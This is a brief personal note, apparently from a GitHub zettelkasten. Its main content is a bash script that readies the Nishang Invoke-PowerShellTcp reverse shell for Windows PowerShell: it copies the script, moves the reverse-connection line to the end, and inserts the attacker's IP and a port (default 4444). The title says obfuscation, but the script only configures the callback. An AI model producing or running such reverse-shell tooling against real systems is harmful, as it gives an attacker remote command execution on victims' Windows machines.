 # script to obfuscate a nishang reverse tcp shell for windows powershell

- concept of `script to obfuscate a nishang reverse tcp shell for windows powershell`
- must have nishang package installed
  - [ ] add error handling

```bash
#!/bin/bash

ATTACKER=$(getmyip)
PORT=$1
if [ -z "$PORT" ]; then
  export PORT=4444
fi
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
# take the line, move to end and remove "PS >"
ex -s -c 'g/Invoke.*Tcp -Rev.*192.168.254.226/m$' -c '$s/PS > //' -c wq nishang.ps1
# edit the IP
ex -s -c "\$s/192.168.254.226/$ATTACKER/" -c wq nishang.ps1
# edit the port
ex -s -c "\$s/4444/$PORT/" -c wq nishang.ps1
```

` zet/20230906044835/README.md `

# Related

- [20230906033259](/zet/20230906033259/README.md) functions to copy over and possibly remake as commands
- [20230906033727](/zet/20230906033727/README.md) commands to get ip

Tags:

    #shortcmd
